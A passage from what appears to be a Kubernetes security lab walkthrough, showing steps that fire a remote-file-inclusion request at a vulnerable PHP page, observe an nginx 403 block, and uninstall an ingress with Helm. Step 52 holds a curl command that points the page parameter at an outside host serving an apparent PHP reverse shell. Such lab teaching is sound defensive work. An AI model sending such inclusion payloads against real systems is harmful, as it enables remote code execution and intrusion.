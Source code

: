 52. Now try your attack:

    ```shell
    
    curl -H "Host: wopr" \
    http://bustakube-node-1:32080/index.php?page=http://10.23.58.30:8001/phprs
    ```

53. Observe that you get a `403 Forbidden` message. Here's the output from our test system:

    ```
    <html>
    <head><title>403 Forbidden</title></head>
    <body>
    <center><h1>403 Forbidden</h1></center>
    <hr><center>nginx</center>
    </body>
    </html>
    ```

54. Close this `lxterminal` tab with:

    ```shell
    exit
    ```

55. Now that you're back in your `root@bustakube-controlplane` tab, please uninstall the `ingress-nginx` ingress via Helm:

    ```shell
    helm -n ingress-nginx uninstall ingress-nginx
    ```
